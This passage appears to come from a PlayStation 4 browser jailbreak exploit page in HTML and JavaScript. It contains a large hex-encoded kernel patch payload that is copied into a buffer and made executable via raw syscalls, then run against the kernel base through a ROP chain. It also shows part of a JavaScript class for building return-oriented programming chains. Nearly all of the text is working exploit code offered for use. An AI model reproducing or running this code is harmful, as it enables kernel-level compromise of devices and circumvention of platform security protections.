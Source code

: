                     var PatchPl = [0x00000BB8,0xFE894800,0x033D8D48,0x0F000000,0x4855C305,0x8B48E589,0x95E8087E,0xE8000000,0x00000175,0x033615FF,0x8B480000,0x0003373D,0x3F8B4800,0x74FF8548,0x3D8D48EB,0x0000029D,0xF9358B48,0x48000002,0x0322158B,0x8B480000,0x00D6E812,0x8D480000,0x00029F3D,0x358B4800,0x000002E4,0x05158B48,0x48000003,0xB9E8128B,0x48000000,0x02633D8D,0x8B480000,0x0002BF35,0x158B4800,0x000002C8,0xE8128B48,0x0000009C,0x7A3D8D48,0x48000002,0x02AA358B,0x8B480000,0x0002AB15,0x128B4800,0x00007FE8,0x0185E800,0xC35D0000,0x6D3D8948,0x48000002,0x026E3D01,0x01480000,0x00026F3D,0x3D014800,0x00000270,0x713D0148,0x48000002,0x02723D01,0x01480000,0x0002933D,0x3D014800,0x00000294,0x653D0148,0x48000002,0x02663D01,0x01480000,0x0002873D,0x3D014800,0x00000288,0x893D0148,0x48000002,0x028A3D01,0x01480000,0x00028B3D,0x3D014800,0x0000024C,0x3D3D0148,0xC3000002,0xE5894855,0x10EC8348,0x24348948,0x24548948,0xED15FF08,0x48000001,0x4B74C085,0x48C28948,0x4840408B,0x2F74C085,0x28788B48,0x243C3B48,0x8B480A74,0xC0854800,0xECEB1D74,0x18788B48,0x74FF8548,0x7F8B48ED,0x7C3B4810,0xE2750824,0xFF1040C7,0x48FFFFFF,0x31107A8D,0x31D231F6,0xA515FFC9,0x48000001,0x5D10C483,0x894855C3,0xC0200FE5,0xFFFF2548,0x220FFFFE,0x3D8B48C0,0x000001C8,0x909007C7,0x47C79090,0x48909004,0x358B48B8,0x000001AC,0x08778948,0x651047C7,0xC73C8B48,0x00251447,0x47C70000,0x89480018,0x1C47C738,0xB8489090,0x7D358B48,0x48000001,0xC7207789,0xC7482847,0x47C70100,0x0000002C,0x778D48E9,0x158B4834,0x00000150,0x89F22948,0x8B483057,0x00016B35,0x568D4800,0xD7294805,0xC148FF89,0x814808E7,0x0000E9CF,0x3E894800,0x00000D48,0x220F0001,0x55C35DC0,0x0FE58948,0x2548C020,0xFFFEFFFF,0x48C0220F,0x013A3D8B,0x07C70000,0x00C3C031,0x353D8B48,0xC7000001,0xC3C03107,0x3D8B4800,0x00000130,0xC03107C7,0x8B4800C3,0x00012B3D,0x3107C700,0x4800C3C0,0x00A63D8B,0x87C70000,0x001F1E01,0x9090F631,0x1E0587C7,0xC931001F,0x87C79090,0x001F1E09,0x9090D231,0x1E3E87C7,0xC931001F,0x0D489090,0x00010000,0xFFC0220F,0x0000EF15,0xC0200F00,0xFFFF2548,0x220FFFFE,0x3D8B48C0,0x000000DC,0xC03107C7,0x0D4800C3,0x00010000,0x5DC0220F,0x737973C3,0x5F6D6574,0x70737573,0x5F646E65,0x73616870,0x705F3265,0x735F6572,0x00636E79,0x74737973,0x725F6D65,0x6D757365,0x68705F65,0x32657361,0x73797300,0x5F6D6574,0x75736572,0x705F656D,0x65736168,0x90900033,0x00000000,0x00000000,0x000F88F0,0x00000000,0x002EF170,0x00000000,0x00018DF0,0x00000000,0x00018EF0,0x00000000,0x02654110,0x00000000,0x00097230,0x00000000,0x00402E60,0x00000000,0x01520108,0x00000000,0x01520100,0x00000000,0x00462D20,0x00000000,0x00462DFC,0x00000000,0x006259A0,0x00000000,0x006268D0,0x00000000,0x00625DC0,0x00000000,0x00626290,0x00000000,0x00626720,0x00000000];
                    for(var i=0; i < PatchPl.length; i++)
                    {
                        patch_buffer_view[i] = PatchPl[i];
                    }
                    chain.fcall(window.syscalls[203], patch_buffer, 0x4000);
                    chain.fcall(patch_buffer, p.read8(KERNEL_BASE_PTR));
                    chain.fcall(window.syscalls[73], patch_buffer, 0x4000);
                    chain.run();   
                    loadBIN();
                }else {
                    alert("Exploit Failed, (Insert USB immediately when you see the message!) Try again or Clear webdata and cookie then try! or Reboot PS4.");
                    p.write8(0, 0);
                }
            }, 12000);
        }
    </script>
    <!--rop-->
    <script>
        const stack_sz = 0x40000;
        const reserve_upper_stack = 0x10000;
        const stack_reserved_idx = reserve_upper_stack / 4;        
        // Class for quickly creating and managing a ROP chain
        window.rop = function () {
            this.stackback = p.malloc32(stack_sz / 4 + 0x8);
            this.stack = this.stackback.add32(reserve_upper_stack);
            this.stack_array = this.stackback.backing;
            this.retval = this.stackback.add32(stack_sz);
            this.count = 1;
            this.branches_count = 0;
            this.branches_rsps = p.malloc(0x200);    
            this.clear = function () {
                this.count = 1;
                this.branches_count = 0;    
                for (var i = 1; i < ((stack_sz / 4) - stack_reserved_idx); i++) {
                    this.stack_array[i + stack_reserved_idx] = 0;
                }